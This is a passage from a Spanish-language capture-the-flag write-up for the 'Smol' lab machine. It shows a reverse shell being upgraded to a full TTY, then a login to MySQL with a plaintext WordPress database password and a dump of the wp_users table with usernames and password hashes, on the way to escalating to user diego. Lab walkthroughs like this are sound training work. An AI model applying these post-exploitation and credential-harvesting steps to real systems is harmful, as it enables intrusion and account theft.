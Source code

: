 Veremos que ha funcionado, por lo que seremos dicho usuario, ahora vamos a sanitizar la `shell`.

### Sanitizacion de shell

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user diego

Nos acordamos de que tenemos las credenciales para poder entrar en `mysql`, vamos a ver si encontramos credenciales registradas de algun usuario del sistema en dicha base de datos.

```shell
mysql -u wpuser -pkbLSF2Vop#lw3rjDZ629*Z%G
```

Dentro seleccionaremos dicha base de datos:

```sql
use wordpress;
```

Ahora vamos a ver la `DDBB` de la tabla usuarios.

```sql
select * from wp_users;
```

Info:

```
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | $P$B5Te3OJvzvJ7NjDDeHZcOKqsQACvOJ0 | admin         | admin@smol.thm     | http://www.smol.hmv | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |
|  3 | think      | $P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |
|  4 | gege       | $P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@smol.thm     | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |
|  6 | xavi       | $P$BvcalhsCfVILp2SgttADny40mqJZCN/ | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
6 rows in set (0.00 sec)
```
